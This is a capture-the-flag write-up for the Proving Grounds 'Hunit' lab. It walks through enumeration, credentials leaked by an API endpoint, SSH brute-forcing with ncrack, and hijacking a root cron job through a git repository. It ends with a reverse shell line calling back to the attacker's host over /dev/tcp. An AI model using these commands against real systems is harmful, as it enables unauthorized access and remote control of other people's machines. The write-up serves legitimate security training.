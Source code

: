 ```yaml
---
title: "Proving grounds Practice: Hunit"
layout: post
categories: writeup
---
```


Proving grounds Practice - Hunit CTF writeup.

# NMAP

```text
PORT      STATE SERVICE     VERSION
8080/tcp  open  http-proxy
12445/tcp open  netbios-ssn Samba smbd 4.6.2
18030/tcp open  http        Apache httpd 2.4.46 ((Unix))
43022/tcp open  ssh         OpenSSH 8.4 (protocol 2.0)
```

## 8080/tcp  open  http-proxy

File Discovery
None

## Directory Discovery
- http://192.168.213.125:8080/api/
- http://192.168.213.125:8080/api/user/

**User directory discloses some credentials.**

```json
[
  {
    "login": "rjackson",
    "password": "yYJcgYqszv4aGQ",
    "firstname": "Richard",
    "lastname": "Jackson",
    "description": "Editor",
    "id": 1
  },
  {
    "login": "jsanchez",
    "password": "d52cQ1BzyNQycg",
    "firstname": "Jennifer",
    "lastname": "Sanchez",
    "description": "Editor",
    "id": 3
  },
  {
    "login": "dademola",
    "password": "ExplainSlowQuest110",
    "firstname": "Derik",
    "lastname": "Ademola",
    "description": "Admin",
    "id": 6
  },
  {
    "login": "jwinters",
    "password": "KTuGcSW6Zxwd0Q",
    "firstname": "Julie",
    "lastname": "Winters",
    "description": "Editor",
    "id": 7
  },
  {
    "login": "jvargas",
    "password": "OuQ96hcgiM5o9w",
    "firstname": "James",
    "lastname": "Vargas",
    "description": "Editor",
    "id": 10
  }
]
```

### Users
rjackson
jsanchez
dademola
jwinters
jvargas

### Passwords
yYJcgYqszv4aGQ
d52cQ1BzyNQycg
ExplainSlowQuest110
KTuGcSW6Zxwd0Q
OuQ96hcgiM5o9w

## Brute force credentials for SSH

```sh
naveenj@hackerspace:|22:22|~/proving_grounds/Hunit/files$ ncrack -vvv ssh://192.168.213.125:43022 -U users -P passwords 

Starting Ncrack 0.7 ( http://ncrack.org ) at 2023-10-23 22:22 EDT

Discovered credentials on ssh://192.168.213.125:43022 'dademola' 'ExplainSlowQuest110'
ssh://192.168.213.125:43022 finished.

Discovered credentials for ssh on 192.168.213.125 43022/tcp:
192.168.213.125 43022/tcp ssh: 'dademola' 'ExplainSlowQuest110'
```

## 12445/tcp open  netbios-ssn Samba smbd 4.6.2

```sh
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	Commander       Disk      Dademola Files
	IPC$            IPC       IPC Service (Samba 4.13.2)
Reconnecting with SMB1 for workgroup listing.
```

## 43022/tcp open  ssh   OpenSSH 8.4 (protocol 2.0)

SSH to user using dademola:ExplainSlowQuest110

```sh
naveenj@hackerspace:|22:25|~/proving_grounds/Hunit$ ssh -p 43022 dademola@192.168.213.125
dademola@192.168.213.125's password:ExplainSlowQuest110
Last login: Tue Oct 24 02:22:47 2023 from 192.168.45.196
[dademola@hunit ~]$ 
```

## Privilege Escalation

Download linpeas using port 8080 and note that a cron job is running.

`root         300  0.0  0.0   3644  2220 ?        Ss   02:19   0:00 /usr/bin/crond -n`

```sh
/var/spool/anacron:
total 20
drwxr-xr-x 2 root root 4096 Nov  6  2020 .
drwxr-xr-x 6 root root 4096 Nov  6  2020 ..
-rw------- 1 root root    9 Feb 16  2023 cron.daily
-rw------- 1 root root    9 Feb 16  2023 cron.monthly
-rw------- 1 root root    9 Feb 16  2023 cron.weekly
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```

## Cron job

- Found id_rsa and id_rsa.pub keys for root.

## Extended capabilities

```sh
[dademola@hunit ~]$ getcap -r / 2> /dev/null
/usr/bin/newgidmap cap_setgid=ep
/usr/bin/newuidmap cap_setuid=ep
```

## Exploring cron

```sh
[dademola@hunit etc]$ cat crontab.bak 
*/3 * * * * /root/git-server/backups.sh
*/2 * * * * /root/pull.sh
```

- Cron running these 2 scripts every 3 and 2 minutes.
- Clone the /git-server folder to the /tmp folder for inspection
- git clone file:///git-server

```sh
[dademola@hunit git-server]$ cat backups.sh 
#!/bin/bash
#
#
# # Placeholder
#
[dademola@hunit git-server]$ ls -al
total 8
drwxr-xr-x 3 dademola dademola 120 Oct 24 03:04 .
drwxrwxrwt 5 root     root     120 Oct 24 03:04 ..
drwxr-xr-x 8 dademola dademola 260 Oct 24 03:04 .git
-rw-r--r-- 1 dademola dademola   0 Oct 24 03:04 NEW_CHANGE
-rw-r--r-- 1 dademola dademola  63 Oct 24 03:04 README
-rw-r--r-- 1 dademola dademola  34 Oct 24 03:04 backups.sh
```

The backups.sh file is a placeholder file.

To gain control over the script, we need to set up our git identity by configuring the user.name and user.email using the commands git config — global user.name “dademola” and git config — global user.email “dademola@hunit.(none)”, respectively.

```sh
[dademola@hunit git-server]$ git config --global user.name "dademola"
[dademola@hunit git-server]$ git config --global user.email "dademola@hunit.(none)"
```

Clone remote git server using git SSH key

```sh
naveenj@hackerspace:|23:18|~/proving_grounds/Hunit$ GIT_SSH_COMMAND='ssh -i id_rsa -p 43022' git clone git@192.168.213.125:/git-server
```

Add reverse shell connection code to the backups.sh file. Configure git in local machine to push the updated code.

```sh
naveenj@hackerspace:|23:23|~/proving_grounds/Hunit/git-server$ git config --global user.name "naveenj"
naveenj@hackerspace:|23:23|~/proving_grounds/Hunit/git-server$ git config --global user.email "naveenj@kali.(none)"
naveenj@hackerspace:|23:24|~/proving_grounds/Hunit/git-server$ git add -A
naveenj@hackerspace:|23:24|~/proving_grounds/Hunit/git-server$ git commit -m "exp"
#git push
naveenj@hackerspace:|23:25|~/proving_grounds/Hunit/git-server$ GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 326 bytes | 326.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
To 192.168.213.125:/git-server
   b50f4e5..eee611b  master -> master
```

Ensure the shell is in the /git-server folder.

Reverse shell
```sh
sh -i >& /dev/tcp/192.168.45.196/8080 0>&1
```

Once the cron job running the reverse shell with root privilege will be obtained.

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).